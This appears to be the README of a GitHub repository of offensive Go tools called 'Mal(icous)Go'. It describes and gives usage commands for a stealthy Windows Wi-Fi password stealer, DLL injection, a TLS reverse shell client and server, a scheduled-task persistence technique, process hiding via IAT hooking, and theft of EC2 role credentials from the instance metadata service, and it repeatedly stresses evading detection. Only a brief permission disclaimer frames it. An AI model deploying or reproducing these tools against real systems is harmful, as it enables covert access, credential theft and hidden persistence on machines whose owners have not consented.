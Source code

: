# Mal(icous)Go

## Disclaimer

Should only be used for systems that you have explicit permission to target, I take no responsibility for actions performed using any code from this repository.

Use at your own risk! 

## wifi pwds

Retrieve WLAN passwords from Windows. Uses native calls in Win32 API rather than executing `netsh wlan ...` as a command, this approach is more stealthy!

## inject

Injects a DLL into a remote process uses the classic on disk / `LoadLibrary` approach so should be used primarily for testing as it is not opsec safe.

Usage:

~~~
inject_x64.exe <dll_path> <pid>
~~~

## rshell

Simple reverse shell implementation client supports comms over TLS using the `tlsserver.go` server code.

### client

_Certificate is embedded into the compiled binary, update to a newly created cert._

~~~
client -tls -port 4444 <host>
~~~

### server

~~~
tlsserver -port 4444 <cert> <key>
~~~

## proxy

Simple TCP proxy

~~~
proxy <port> <host:port>
~~~

## persistence

A PoC to test adding a scheduled task into windows via COM/OLE rather than the noisey approach of using `schtasks.exe`. Please adjust to your needs!

## hideproc

Uses IAT hooking to hook into the low level `NtQuerySystemInformation` function import from `ntdll.dll` and hide processes based on an image name. Also includes a test executable to test against. Simply inject the DLL into the process you want to hide processes from.

Also demonstrates being able to read the PE including the IAT entries in-memory.

Code could be adjusted to perform other tasks.

## imdsdump

Find yourself on an EC2 instance with an assigned role?! This will use the IMDS to retrieve the temporary creds. Useful if the EC2 host is locked down making it tricky to call the service using other methods.

Compiles to an exe however the code could be changed and compiled as a DLL to be used in-memory to be more stealty or when app blocking is in place.